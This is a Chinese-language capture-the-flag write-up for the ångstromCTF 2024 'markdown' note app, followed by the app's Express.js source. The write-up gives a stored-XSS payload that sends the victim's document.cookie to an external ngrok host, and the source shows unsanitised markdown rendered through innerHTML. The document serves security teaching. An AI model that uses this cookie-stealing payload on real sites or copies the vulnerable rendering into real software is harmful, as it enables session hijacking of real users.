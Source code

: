 # ångstromCTF 2024 - markdown   
 --- 
題目設計的主題是一個簡單的markdown筆記應用，創造筆記之後可以將url分享給朋友，讓對方瀏覽你製作的筆記   
![image.png](files/image_7.png)    
![image.png](files/image_9.png)    
筆記應用頁面本身沒有什麼敏感資料，但嘗試幾次發現：
1. 會繞過`<script>` payload
2. 在內文輸入其它html tag都可以成功注入

找到可以使用的XSS payload:
`<img src="x" onerror="alert(0)">`    
成功注入XSS後的效果如下   
![image.png](files/image_q.png)    

`<img src="x" onerror="document.location='http://0.tcp.jp.ngrok.io:12551/?cookie=' + encodeURIComponent(document.cookie)">`    
此攻擊方法：
在本機上運行一個可以竊取cookies的惡意程式碼，透過ngrok轉發之後注入在markdown筆記內，形成一個stored XSS。   
![image.png](files/image.png)    
將具有XSS的筆記分享給目標受害者，就可以成功取得他的token並且取得flag   
![image.png](files/image_s.png)    
![image.png](files/image_4.png)    
> code   

```
const crypto = require('crypto')



const express = require('express')

const app = express()



const posts = new Map()



app.use(express.urlencoded({ extended: false }))



app.get('/', (_req, res) => {

    const placeholder = [

        '# Note title',

        'Content of the note. You can use *italics*!',

    ].join('\n')



    res.type('text/html').end(`

        <link rel="stylesheet" href="/style.css">

        <div class="content">

            <h1>Pastebin</h1>

            <form action="/create" method="POST">

                <textarea name="content">${placeholder}</textarea>

                <button type="submit">Create</button>

            </form>

        </div>

    `)

})



app.get('/flag', (req, res) => {

    const cookie = req.headers.cookie ?? ''

    res.type('text/plain').end(

        cookie.includes(process.env.TOKEN)

        ? process.env.FLAG

        : 'no flag for you'

    )

})



app.get('/view/:id', (_req, res) => {

    const marked = (

        'https://cdnjs.cloudflare.com/ajax/libs/marked/4.2.2/marked.min.js'

    )



    res.type('text/html').end(`

        <link rel="stylesheet" href="/style.css">

        <div class="content">

        </div>

        <script src="${marked}"></script>

        <script>

            const content = document.querySelector('.content')

            const id = document.location.pathname.split('/').pop()



            delete (async () => {

                const response = await fetch(\`/content/\${id}\`)

                const text = await response.text()

                content.innerHTML = marked.parse(text)

            })()

        </script>

    `)

})



app.post('/create', (req, res) => {

    const data = req.body.content ?? ''

    const id = crypto.randomBytes(8).toString('hex')

    posts.set(id, data)

    res.redirect(`/view/${id}`)

})



app.get('/content/:id', (req, res) => {

    const id = req.params.id

    const data = posts.get(id) ?? ''

    res.type('text/plain').end(data)

})



app.get('/style.css', (_req, res) => {

    res.type('text/css').end(`

        * {

          font-family: system-ui, -apple-system, BlinkMacSystemFont,

            'Segoe UI', Roboto, 'Helvetica Neue', sans-serif;

          box-sizing: border-box;

        }



        html,

        body {

          margin: 0;

        }



        .content {

          padding: 2rem;

          width: 90%;

          max-width: 900px;

          margin: auto;

        }



        input:not([type='submit']) {

          width: 100%;

          padding: 8px;

          margin: 8px 0;

        }



        textarea {

          width: 100%;

          padding: 8px;

          margin: 8px 0;

          resize: vertical;

          font-family: monospace;

        }



        input[type='submit'] {

          margin-bottom: 16px;

        }





    `)

})



app.listen(3000)
```
